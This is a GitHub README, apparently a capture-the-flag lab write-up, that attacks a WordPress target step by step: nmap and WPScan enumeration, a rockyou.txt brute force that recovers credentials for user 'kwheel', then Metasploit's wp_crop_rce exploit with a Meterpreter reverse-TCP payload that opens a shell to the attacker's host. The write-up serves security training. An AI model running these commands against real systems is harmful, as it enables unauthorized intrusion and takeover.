 # Project Overview

Welcome to our GitHub repository! This project aims to demonstrate and document a comprehensive approach to identifying and exploiting vulnerabilities within a WordPress site environment. Our goal is to provide a detailed walkthrough of conducting a security assessment, from initial reconnaissance to gaining access, with a focus on ethical hacking practices.

## 🛠 Initial Reconnaissance with Nmap

The journey begins with an `nmap` scan, a foundational step in understanding the target's exposed services and potential entry points.

```shell
nmap -sC -sV -Pn 10.10.151.250
```

This command probes the target for open ports, service versions, and default scripts, providing a landscape of the network.

## 🕵️‍♂️ Discovering Vulnerabilities

Upon identifying open ports and services, further investigation led us to several interesting findings, including open SSH and HTTP ports, indicating potential pathways for deeper exploration.

### WordPress Enumeration with WPScan

WPScan, a dedicated WordPress vulnerability scanner, is employed to unearth specific vulnerabilities within the WordPress installation.

```shell
wpscan --url http://10.10.151.250
```

Further enumeration reveals users and possible points of entry:

```shell
wpscan --url http://10.10.151.250 --enumerate ap,at,u
```

## 🔓 Exploiting Vulnerabilities

### Brute Force Attack

With identified usernames, we proceed with a brute-force attack to uncover passwords, using the `rockyou.txt` wordlist.

```shell
wpscan --url http://10.10.151.250 --passwords /usr/share/wordlists/rockyou.txt --user kwheel
```

Success! We discover credentials for the user `kwheel`.

## 🚪 Gaining Access

Using the found credentials, we explore ways to gain deeper access, potentially exploiting WordPress vulnerabilities or misconfigurations for remote code execution.

### Reverse Shell and Privilege Escalation

Utilizing Metasploit Framework, we aim to establish a reverse shell, moving towards gaining elevated privileges on the target machine.

1. **Starting Metasploit**

```shell
msfconsole
```

2. **Searching for and Setting Up an Exploit**

```shell
search wordpress 5.0
use exploit/multi/http/wp_crop_rce 
set RHOSTS machine_local_IP
set USERNAME kwheel
set PASSWORD cutiepie1
```

3. **Configuring and Launching the Payload**

```shell
set payload php/meterpreter/reverse_tcp
set LHOST your_local_IP
exploit
```

## Conclusion and Ethical Consideration

This README outlines the steps and methodologies used in conducting a security assessment against a WordPress site. It's crucial to highlight that all activities described here should only be performed with explicit authorization and within the scope of an ethical hacking or penetration testing engagement. Unauthorized access to computer systems is illegal and unethical.
